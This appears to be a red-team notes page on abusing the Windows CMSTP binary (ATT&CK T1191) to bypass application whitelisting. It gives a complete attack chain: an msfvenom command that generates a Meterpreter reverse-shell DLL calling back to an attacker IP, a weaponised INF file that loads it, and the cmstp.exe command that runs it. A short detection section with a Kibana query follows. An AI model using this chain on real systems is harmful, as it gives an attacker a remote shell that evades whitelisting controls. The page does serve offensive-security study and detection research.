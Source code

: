 ```yaml
---
description: CSMTP code execution - bypass application whitelisting.
---
```


# T1191: CSMTP

## Code

Generating evil payload as a DLL - a reverse shell:

{% code-tabs %}
{% code-tabs-item title="evil.dll" %}
```text
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > /root/tools/mitre/cmstp/evil.dll
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Creating a file that will be loaded by CSMTP binary that will in turn load our evil.dll:

{% code-tabs %}
{% code-tabs-item title="f.inf" %}
```scheme
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall_SingleUser]
RegisterOCXs=RegisterOCXSection
 
[RegisterOCXSection]
C:\experiments\cmstp\evil.dll
 
[Strings]
AppAct = "SOFTWARE\Microsoft\Connection Manager"
ServiceName="mantvydas"
ShortSvcName="mantvydas"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

```bash
PS C:\experiments\cmstp> cmstp.exe /s .\f.inf
```

## Observations

Rundll32 is sapwned which then establishes a connection back to the attacker:

![](../.gitbook/assets/cmstp-rundll32.png)

A very privitive way of hunting for suspicious instances of rundll32 initiating connections would be skimming through the sysmon logs to find any network connections established by rundll32 immediately/soon after it has been spawened by cmstp:

{% code-tabs %}
{% code-tabs-item title="kibana search query" %}
```javascript
cmstp.exe rundll32.exe
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Note how the connection was established second after the process creation. This behaviour depends on what the payload is supposed to do, but if the payload is a reverse shell, it usually attempts connecting back immediately upon execution, which is exactly our case:

![](../.gitbook/assets/cmstp-kibana%20%281%29.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1191\",\"type\":\"link\",\"title\":\"CMSTP - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://pentestlab.blog/2018/05/10/applocker-bypass-cmstp/\",\"type\":\"link\",\"title\":\"AppLocker Bypass – CMSTP\",\"description\":\"CMSTP is a binary which is associated with the Microsoft Connection Manager Profile Installer. It accepts INF files which can be weaponised with malicious commands in order to execute arbitrary cod…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://pentestlab.files.wordpress.com/2018/05/cmstp-metasploit-multi-handler.png\",\"width\":707,\"height\":318,\"aspectRatio\":0.4497878359264498}}" %}



